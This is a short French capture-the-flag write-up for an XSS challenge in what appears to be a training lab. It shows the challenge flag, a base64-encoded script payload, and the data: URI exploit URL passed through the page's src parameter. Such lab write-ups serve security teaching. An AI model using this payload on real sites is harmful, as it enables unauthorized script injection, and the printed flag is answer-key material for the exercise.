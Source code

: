 # XSS BASE64

## Flag
```
928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D
```

## Découverte

Sur la page http://{IP_ADDRESS} l'image de l'aigle de la NSA avec un casque \
redirige sur http://{IP_ADDRESS}/?page=media&src=nsa.
On peut modifier le src nsa par un script en base64.
```
<script> alert("well done"); </script>
                 ==
PHNjcmlwdD4gYWxlcnQoIndlbGwgZG9uZSIpOyA8L3NjcmlwdD4=
```
On va donc a l'url \
http://{IP_ADDRESS}/?page=media&src=data:text/html;base64,PHNjcmlwdD4gYWxlcnQoIndlbGwgZG9uZSIpOyA8L3NjcmlwdD4= .


## Documentation
- [owasp - Cross-site_Scripting](https://wiki.owasp.org/index.php/Cross-site_Scripting_(XSS))

---

[RETURN](https://github.com/jlange91/darkly)
